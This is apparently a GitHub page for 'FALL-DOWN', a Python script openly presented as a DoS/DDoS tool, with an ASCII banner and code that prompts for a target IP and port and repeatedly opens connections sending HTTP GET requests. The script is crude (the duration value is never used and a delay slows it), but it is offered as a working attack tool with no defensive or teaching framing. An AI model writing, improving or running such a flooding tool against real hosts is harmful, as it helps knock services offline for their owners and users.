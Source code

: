 # FALL-DOWN
ddos tool by R.S.C
import socket
import time

def print_banner():
    print("""
    ██████  ██████  ██████  ███████     ███████ ██████  ██████   ██████  ██████  
    ██      ██  ████ ██   ██ ██          ██      ██   ██ ██   ██ ██  ████ ██   ██ 
    ██      ██ ██ ██ ██   ██ █████       █████   ██████  ██████  ██ ██ ██ ██████  
    ██      ████  ██ ██   ██ ██          ██      ██   ██ ██   ██ ████  ██ ██   ██ 
     ██████  ██████  ██████  ███████     ███████ ██   ██ ██   ██  ██████  ██   ██ 
                                                                                  
                                                                                      
   A Simple Denial of Service (DoS) Tool by R.S.C                                                                                   
    """)

def dos_attack(ip, port, duration, packets_to_send):
    timeout = time.time() + duration
    packets_sent = 0

    try:
        for _ in range(packets_to_send):
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, port))
            s.sendall("GET / HTTP/1.1\r\n".encode())
            s.sendall(("Host: " + ip + "\r\n\r\n").encode())
            packets_sent += 1
            print(f"{packets_sent} packets sent to {ip}")
            s.close()
            time.sleep(0.1)  # Añadimos un pequeño retraso entre envíos para evitar saturar la red

    except socket.error as e:
        print(f"Connection error: {e}")

print_banner()
target_ip = input("Enter the target IP address: ")
target_port = int(input("Enter the target port: "))
duration = int(input("Enter the duration of the attack in seconds: "))
packets_to_send = int(input("Enter the number of packets to send at once: "))

dos_attack(target_ip, target_port, duration, packets_to_send)
